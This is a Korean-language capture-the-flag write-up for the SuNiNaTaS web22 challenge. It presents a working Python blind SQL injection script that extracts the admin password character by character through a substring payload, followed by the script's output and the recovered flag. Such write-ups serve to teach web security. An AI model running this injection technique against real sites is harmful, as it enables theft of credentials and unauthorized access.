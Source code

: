 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-02-36-59.png)


# **Write-Up**

Blind SQLi를 하라는데 필터링 겁나게 많다.

솔직히 서버가 개판나서, 필터링이 될 때도 있고, 안될때도 있고, 쿼리가 성공할 때도 있고, 실패할 때도 있어서 시간이 좀 걸렸다...... (+ white space도 필터링한다면서 구라침)

다음과 같은 Python Script로 FLAG를 획득할 수 있다.

```python
import urllib
import urllib.request
import string

ascii_set   = string.printable.replace(" \t\n\r\x0b\x0c","")
flag        = ''
for i in range(1, 100):
    old_flag_len    = len(flag)
    for c in ascii_set:
        id      = urllib.parse.quote('admin\' and substring(pw,{},1)=\'{}\'--'.format(i, c))
        pw      = urllib.parse.quote('1234')
        url     = 'http://suninatas.com/challenge/web22/web22.asp?id='+id+'&pw='+pw
        request = urllib.request.Request(url=url)
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        if 'OK' in result:
            flag += c
            print('current flag\t: {}'.format(flag))
            break
    if old_flag_len == len(flag): break

[Output]
current flag    : N
current flag    : N1
current flag    : N1c
current flag    : N1c3
current flag    : N1c3B
current flag    : N1c3Bi
current flag    : N1c3Bil
current flag    : N1c3Biln
current flag    : N1c3Bilnl
current flag    : N1c3Bilnl)
```


# **FLAG**

**N1c3Bilnl)**